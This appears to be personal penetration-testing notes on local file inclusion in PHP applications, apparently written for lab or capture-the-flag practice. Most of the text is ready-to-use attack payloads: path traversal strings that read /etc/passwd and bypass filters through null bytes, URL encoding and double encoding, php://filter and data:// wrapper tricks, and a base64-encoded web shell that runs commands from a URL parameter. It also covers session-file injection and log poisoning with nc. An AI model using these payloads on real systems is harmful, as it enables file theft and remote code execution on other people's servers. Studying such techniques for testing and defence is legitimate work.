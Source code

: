 ![[Pasted image 20250115174919.png]]

https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt
### Tricks

* %00 - PHP stops reading file path and name, e. g. ../../../etc/passwd%00.php
* ....//....//....//etc/passwd - to bypass auto replace


##### PHP Wrappers

* `php://filter/convert.base64-encode/resource=/etc/passwd`
* `data:text/plain,<?php%20phpinfo();%20?>`

![[Pasted image 20250121072829.png]]


![[Pasted image 20250121073240.png]]
We will use the PHP code `<?php system($_GET['cmd']); echo 'Shell done!'; ?>` as our payload. The value of the payload, when encoded to base64, will be `php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+`



#### Obfuscation
1. **URL Encoded Bypass:** The attacker can use the URL-encoded version of the payload like `?file=%2e%2e%2fconfig.php`. The server decodes this input to `../config.php`, bypassing the filter.
    
2. **Double Encoded Bypass:** The attacker can use double encoding if the application decodes inputs twice. The payload would then be `?file=%252e%252e%252fconfig.php`, where a dot is `%252e`, and a slash is `%252f`. The first decoding step changes `%252e%252e%252f` to `%2e%2e%2f`. The second decoding step then translates it to `../config.php`.
    
3. **Obfuscation:** An attacker could use the payload `....//config.php`, which, after the application strips out the apparent traversal string, would effectively become `../config.php`.
###### Session files
1. Inject `<?php echo phpinfo(); ?>` into session.
2. Access URL to execute the code:
`sessions.php?page=/var/lib/php/sessions/sess_[sessionID]`

###### Log poisoning
```php
$ nc MACHINE_IP 80      
<?php echo phpinfo(); ?>
```

Then using LFI access the log file.



